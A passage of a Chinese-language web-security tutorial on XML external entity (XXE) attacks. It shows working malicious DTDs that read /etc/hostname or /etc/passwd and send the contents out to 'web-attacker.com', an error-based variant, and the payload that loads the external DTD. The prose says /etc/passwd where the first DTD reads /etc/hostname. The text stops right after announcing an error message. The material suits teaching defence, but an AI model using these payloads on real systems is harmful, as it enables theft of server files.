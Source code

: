 ```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

该DTD执行以下步骤：

- 定义一个名为file的XML参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个XML参数实体exfiltrate的动态声明。通过向攻击者的web服务器发出包含URL查询字符串中“file”实体值的HTTP请求来操作exfiltrate实体。
- 使用eval实体，这将导致执行exfilter实体的动态声明。
- 使用exfiltrate实体，通过请求得到指定的URL的内容。

然后，攻击者必须在他们控制的系统上托管恶意DTD，通常是将其加载到自己的Web服务器上。例如，攻击者可能通过以下URL为恶意DTD提供服务：http://web-attacker.com/malicious.dtd

最后，攻击者必须向易受攻击的应用程序提交以下XXE负载：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

这个XXE的payload声明了一个名为XXE的XML参数实体，然后在DTD中使用该实体。这将导致XML解析器从攻击者的服务器获取外部DTD，并对其进行内联解释。然后执行恶意DTD中定义的步骤，并将/etc/passwd文件传输到攻击者的服务器。

### Error Based XXE(外部实体)

这种情况出现于我们将使服务器加载一个恶意DTD，该DTD将在错误消息中显示文件的内容（只有可以看到错误消息时，这才有效）。

有时候可以使用恶意外部DTD触发包含/etc/passwd文件内容的XML解析错误消息，如下所示：

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

该DTD执行以下步骤：

- 定义一个名为file的XML参数实体，包含/etc/passwd文件的内容。
- 定义一个名为eval的XML参数实体，其中包含另一个称为error的XML参数的动态声明。将通过加载一个名称包含文件实体值的不存在的文件来获得错误实体内容。
- 使用eval实体，这将导致执行error实体。
- 通过执行error实体，以便通过尝试加载不存在的文件来带出目标文件的值，从而生成包含不存在文件的名称的错误消息，该文件是/etc/passwd文件的内容。

使用以下命令调用：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
<stockCheck><productId>3;</productId><storeId>1</storeId></stockCheck>
```

将会看到web服务器响应的错误消息中文件的内容：
